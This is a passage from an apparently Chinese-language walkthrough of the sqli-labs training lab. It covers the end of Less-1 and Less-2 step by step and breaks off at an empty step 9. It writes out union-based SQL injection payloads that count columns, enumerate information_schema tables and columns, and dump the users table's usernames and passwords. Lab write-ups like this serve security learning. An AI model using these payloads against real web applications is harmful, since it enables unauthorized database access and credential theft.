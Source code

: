**在数据库information_schema中的columns里查找出数据库security中的users表的全部字段**
![Pasted image 20250313161527](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161527.png)
10.构造
```php
?id=-1' union select 1,group_concat(username),group_concat(password) from users --+
```
**爆出所有的用户名和密码**
![Pasted image 20250313161635](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161635.png)
# Less-2
**验证注入点：单引号报错，不用闭合可执行 SQL语句利用闭合方式：`<payload>`**
与第一关基本一样，就 `id` 不用闭合
1.进入第二题，显示`Please input the ID as parameter with numeric value`，告诉了我们参数为**id**
![Pasted image 20250313161818](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161818.png)
2.构造`?id=1`,页面显示正常
```php
http://localhost/sqli-labs/Less-2/?id=1
```
![Pasted image 20250313161840](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161840.png)
3.接下来加个单引号，显示语句出错，根据报错信息可以得知是`单引号`影响了SQL语句的闭合，由此判断出这题是**数字型注入**
```php
http://localhost/sqli-labs/Less-2/?id=1'
```
![Pasted image 20250313161910](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313161910.png)
4.构造`?id=1 order by 3 --+`通过order by子句来判断该数据表的字段数
```
http://localhost/sqli-labs/Less-2/?id=1 order by 3 --+
```
![[Pasted image 20250313162025.png]]
构造`?id=1 order by 4 --+`页面报错，由此可知该表**字段数为3**
```
http://localhost/sqli-labs/Less-2/?id=1 order by 4 --+
```
![[Pasted image 20250313162128.png]]
5.构造`?id=-1 union select 1,2,3 --+`判断出**回显点为该表的第二、三字段**
```
http://localhost/sqli-labs/Less-2/?id=1 union select 1,2,3 --+
```
![Pasted image 20250313162206](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313162206.png)
6.构造`?id=-1 union select 1,2,database() --+`知道了数据库名为security
```php
http://localhost/sqli-labs/Less-2/?id=-1 union select 1,2,database() --+
```
![Pasted image 20250313162325](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313162325.png)
7.构造
```php
http://localhost/sqli-labs/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```
在数据库information_schema中的tables表里查询出security数据库的表有：**emails,referers,uagents,users**
![Pasted image 20250313162432](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313162432.png)
8.构造
```php
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
在数据库information_schema中的columns里查找出数据库**security中的users表的全部字段**
![Pasted image 20250313162527](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313162527.png)
9.构造
```php
```